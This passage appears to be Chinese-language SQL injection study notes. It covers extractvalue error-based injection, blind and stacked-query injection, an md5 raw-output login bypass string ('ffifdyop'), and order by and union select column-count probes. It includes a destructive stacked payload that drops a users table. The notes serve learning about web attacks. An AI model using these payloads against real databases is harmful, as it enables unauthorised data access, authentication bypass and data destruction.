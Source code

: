       ```sql
      and extractvalue(1, payload)
      ```

      > `extractvalue(xml_target, xpath_expr)`：该函数用来提取XML文档中某个节点的值
      > `xml_target`  xml文档
      > `xpath_expr`   Xpath表达式，用来定位要提取的节点
      >
      > 这个的报错原因和上面一样
      >
4. 盲注
   有时间盲注和布尔盲注
5. 堆叠查询注入

   允许多条sql语句同时执行

   ```
   '; DROP TABLE users; --
   ```

   ```sql
   SELECT * FROM users WHERE username = ''; DROP TABLE users; --';
   ```

   某些数据库不支持
6. 存储过程注入
7. cookie注入
8. md5注入
   查询命令

   ```sql
    select * from 'admin' where password=md5($pass,true)
   ```

   > md5($pass, true)：这个后面的true默认值是false，就会返回32字符的hex字符串
   >
   > 如果为true，就会返回hex的二进制数据（RAW格式）
   >

   ```
   ffifdyop
   md5值为：
   'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
   ```

#### 测试列数

1. order by测试

   ```
   /?id=1' order by 3 --+
   ```
2. union select 测试

   ```
   ?id=-1' union select 1,2,3--+
   ```

#### 判断类型
